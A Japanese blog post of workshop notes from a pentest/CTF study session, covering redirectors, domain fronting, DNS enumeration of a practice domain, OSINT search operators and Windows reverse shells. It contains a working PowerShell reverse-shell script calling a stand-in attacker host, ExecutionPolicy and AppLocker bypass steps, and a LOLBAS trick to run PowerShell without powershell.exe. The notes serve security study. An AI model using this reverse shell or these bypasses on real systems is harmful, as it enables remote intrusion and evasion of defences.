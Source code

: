 ```yaml
---
date: 2019-12-29
description: '浪速セキュリティnote'
category:
 - 雑記
---
```


# 浪速セキュリティnote
12/29(日)に開催された[浪速セキュリティ勉強会#04 #05：ペンテストCTFで学ぶサイバーセキュリティ（12月29日)](https://naniwasecurity.connpass.com/event/154331/)に参加した際のarchive

## 基礎知識
 - 今回は実際に攻撃するまでの偵察がメイン
 - `nc -lvnp 80`でlisten

### redirector
 - targetとattackerの間に配置して, targetと直接通信するサーバ
 - これ自身を調べても本体はいない
 - 自分たちの安全を保証するために挟むのが一般的
 - ペンテストやレッドチームもこういったところまでやる必要がある
 - 目的
   - 自分たちをtargetから隠す
   - redirectorをtakedownされても別のredirectorを立てればよい

## DNSの調査
### domain fronting
   - HTTPS接続のドメインを難読化(解析困難化)することによってインターネットの検閲やブロッキングを回避する手法
   - 例えば、CDNのサーバーにリフレクションサーバーを紛れ込ます手法などかある
     - ref: [Domain Fronting (まとめ)](https://malware-log.hatenablog.com/entry/Domain_Fronting)
   - 最近はreputationで判断しているので, false positiveがある
     - [domainFrontingLists](https://github.com/vysecurity/DomainFrontingLists)
     - [WebPulse Site Review Request](https://sitereview.bluecoat.com/#/)

### DNSの調査(DNS Enumeration)
 - targetのname serverの探索
 - [zonetransfer.me](zonetransfer.me)は脆弱なやられサーバ的な感じ

 - nsレコードをもらってくる
   - `host -t ns {targetip}`

```
~# host -t ns zonetransfer.me
zonetransfer.me name server nsztm1.digi.ninja.
zonetransfer.me name server nsztm2.digi.ninja.

```

 - mxレコードをもらってくる
   - `host -t mx {targetip}`

```
# host -t mx zonetransfer.me
zonetransfer.me mail is handled by 0 ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 10 ALT2.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX4.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 10 ALT1.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX5.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX3.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX2.GOOGLEMAIL.COM.
```

   - 相手はメールをgmailの管理サーバを使っていることがわかる
   - -> 標的型攻撃をする場合, googleの持っている機能はscanされてしまうこともわかる
   - -> malwareを作って添付しても, そもそも相手に着弾しない可能性がある
   - -> 着弾するかしないかは, 自分でgoogleのメールサーバを使って確認することができる
   - これは他のメールサービスでも同様

### DNS Lookup
 - 存在しそうなホスト名にDNSパケットを飛ばして確認する手法

```
for name in $(cat /usr/share/dnsenum/dns.txt); do
host ${name}. zonetransfer.me | grep "has address" | cut -d " " -f 1,4
done
```

### Reverse DNS Lookup
 - 1つ存在しているホスト名を見つけ, 存在しているホスト名の近くを使っていると想定して上でBruteForceを試す手法
 - 192.168.33.{brute force}

### DNS Zone Transfer
 - ゾーン転送情報取得を用いて確認する手法
 - dig axfr @... addr

### 内部のサーバのレコードを見る
 - サーバ証明書を発行した時に発行した旨をDBに蓄積する
 - これが改ざんされていないかを確認する仕組みがある
   - [【講演】Certificate Transparencyを知ろう ～証明書の透明...](https://www.jnsa.org/seminar/pki-day/2016/data/1-2_oosumi.pdf)
 - このログサーバは公開されている
   - 内部のサーバレコードが見れる
   - 命名から中身が想定できる
 - [findomain](https://github.com/Edu4rdSHL/findomain)
 
### RedirectorとRedirectの違い
 - redirectorは直接通信する
 - redirectは挟んで通信するので遮断される可能性がある

## OSINT
### Google Search Operator
   - [GoogleGuide making searching even easier](http://www.googleguide.com/print/adv_op_ref.pdf)
   - 空白はOR
   - `-`は除外
   - `site:`
   - `filetype:`
     - `filetype:pdf`が便利
### Twitter Serach Operators
   - [Rules and filtering](https://developer.twitter.com/en/docs/tweets/rules-and-filtering/overview/standard-operators)
   - `geocode: 緯度,経度,距離km`
   - [google hacking database](https://www.exploit-db.com/google-hacking-database)
   - 社内向け資料に連絡先があるなど
 
## ReverseShell
### PowerShell
 - PowerShellでファイルを実行するにはExecutionPolicyを設定し直す必要がある
   - [設定値等についてはこちら(Qiita: PowerShellのExecutionPolicyのスコープとかについて詳しく)](https://qiita.com/kikuchi/items/59f219eae2a172880ba6)

```
Set-ExecutionPolicy bypass`
start-process calc.exe
powershell.exe -executionpolicy bypass gen_calc.ps1
```

 - ReverseShell用のCSharpCode

```
$client = New-Object System.Net.Sockets.TCPClient("attackerAddress",443);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback =(iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};

$client.Close()
```

### PowerShell without powershell.exe
 - SyncAppvは仮想化モジュールの一部
 - powershellのコマンドを受け付ける
   - `C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; start-process calc.exe"`
   - これでcalc.exeが立ち上がる
 - lolbas(Living Off The Land Binaries and Scripts)
   - 現地調達型バイナリ(実行ファイル)
   - [Web: Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
   - [GitHub](https://github.com/LOLBAS-Project/LOLBAS)
   - ここで対象になっている107個のアプリケーションはチェック対象にすることが求められる

### Restricting PowerShell
 - applocker
   - ブラックリスト管理をするのが良い
   - 最初に全て許可してからダメなものをブラックリストに入れる
 - apploockerのbypass
   - powershellを動かせる
   - 対策として, InstallUtil.exeをapplockerに入れる
     - その際に, 過去の実行ログをみて, 使われていない場合は良いかもしれない
     - だいたい使われているので, それらを使っているcallerをホワイトリスト管理するとよい
